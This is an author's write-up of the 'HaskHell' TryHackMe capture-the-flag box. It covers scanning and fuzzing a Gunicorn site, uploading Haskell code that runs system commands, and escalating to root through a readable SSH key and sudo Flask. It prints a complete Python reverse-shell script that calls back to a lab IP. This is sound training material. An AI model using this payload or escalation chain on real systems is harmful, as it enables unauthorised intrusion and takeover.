 ```yaml
---
layout: default
title: "HaskHell Author's Writeup"
permalink: /HaskHell-Authors-Writeup
categories: haskell, tryhackme, haskhell
---
```


This is a brief writeup of the HaskHell box for the TryHackMe platform. You can find the box here: tryhackme.com/room/haskhell

This box was made as a medium-ish difficulty box with the intent of introducing users to a new programming language. I think that functional languages are super cool but don't get enough exposure and I'm tired of cracking PHP web apps, so I wanted to do something with some truly weird functionality. 

If you like this sorta stuff and want to see more you can follow me on Twitter @passthehashbrwn

The box has a few small snags along the way, but is pretty straightforward for the most part.

## Scanning
After scanning, you'll find that port 22 and port 5001 are open. Port 5001 is running a Gunicorn web server.

## The web server
The index of the web server is the home page for a functional programming course, and provides a link to the first homework assignment.
![First page](https://passthehashbrowns.github.io/images/first_page.png)

The first homework assignment contains a few problems, and provides a link to where students can submit their Haskell files. 
![Second page](https://passthehashbrowns.github.io/images/second_page.png)

Unfortunately, the professor included the wrong link and we get a 404.
![Upload page](https://passthehashbrowns.github.io/images/upload_page.png)

With a little more enumeration, we find that there's a Submit page. Looks like the professor just got his wires crossed. The tool used here [is FFUF](https://github.com/ffuf/ffuf), my preferred tool for web fuzzing.
![Dirb scan](https://passthehashbrowns.github.io/images/dirb_scan.png)

Once we navigate to the Submit page, we find a pretty basic file upload functionality.
![Submit page](https://passthehashbrowns.github.io/images/submit_page.png)

On a previous page, the professor noted that only Haskell files would be accepted for upload, because of a lesson learned previously. We can try uploading other types of files, but they won't be accepted. We have a few routes that we can take from here. The immediate thought that comes to mind is to try and use Haskell to interact with system processes. I've written a short piece of code to do just that. This screenshot shows "ls -la" but in the actual submission I used wget to download a Python payload, and then run it in another upload.
![Haskell base code](https://passthehashbrowns.github.io/images/haskell_base_cmd.png)

The Python payload that I used is just the PentestMonkey Python one-liner expanded because of my own neurosis.

~~~python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.126.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
~~~

NOTE: I've had some users saying that the box is broken because they get an internal server error if there's an integer or special character in the file name. The box isn't broken, this was done on purpose because I didn't want to introduce an OS Command Injection into the machine and I decided to blacklist all non alpha characters except for the dot in the file extension since that's exactly how a lazy professor would do it. Totally not cause I'm lazy. You can see the code that causes this here:
![Server error code](https://passthehashbrowns.github.io/images/server_error_code.png)

Some TryHackMe users were more clever than me implemented this more concisely. The reason that my solution uses wget to grab a Python file is that when you try to use createProcess with your standard BASH reverse shell, you get some weird issues with redirection. The most common solution that I've seen is to use the callCommand function from the System.Process library, which takes the command string as an argument. Here are the two for comparison:
1.
~~~haskell
import System.Process
import System.IO
main = do 
    (_, Just hout, _, _) <- createProcess (proc "ls" ["-la"]){ std_out = CreatePipe }
    cmdOut <- hGetContents hout
    putStrLn cmdOut
~~~
2.
~~~haskell
import System.Process
main = do
  callCommand "ls -la"
~~~

I use "ls -la" as an atomic example. While my solution does correctly handle IO, I think that their solution is far better in this case.

Still, I felt sort of weird that there was no existing reverse shell implementation in Haskell, so I went ahead and wrote my own. [You can find it here.](https://github.com/passthehashbrowns/Haskell-Reverse-Shell) Ironically, it doesn't work on this web server because of how the command is being run, but it does serve as a POC.

Anyways, using the Python payload, we can wget it and then run it.
![Python wget](https://passthehashbrowns.github.io/images/python_wget.png)

Now we get our callback as the flask user.
![Reverse shell catch](https://passthehashbrowns.github.io/images/rev_shell_callback.png)

## Escalating to prof
My preferred Linux enumeration tool is LinPEAS, but whatever tool you use should catch that the prof user's SSH key is world readable.
![LinPEAS SSH key](https://passthehashbrowns.github.io/images/linpeas_ssh_key.png)

Now we can SSH into the server by doing a quick chmod to give our key either 400 or 600 permissions. Once in the server as prof, we'll find that we can run Flask with sudo rights. The other thing that should stand out is that FLASK_APP is in the env_keep entry. This was necessary when building the box as the user needs to be able to set the FLASK_APP variable for later.
![Sudo enumeration](https://passthehashbrowns.github.io/images/sudo_enum.png)

Using Flask we can use the exact same Python payload as before and catch our root shell.
![Flask run](https://passthehashbrowns.github.io/images/flask_run.png)
![Catch root shell](https://passthehashbrowns.github.io/images/catch_root_shell.png)

Hopefully you enjoyed this box, I had a great time making it and plan on making more in the future. 


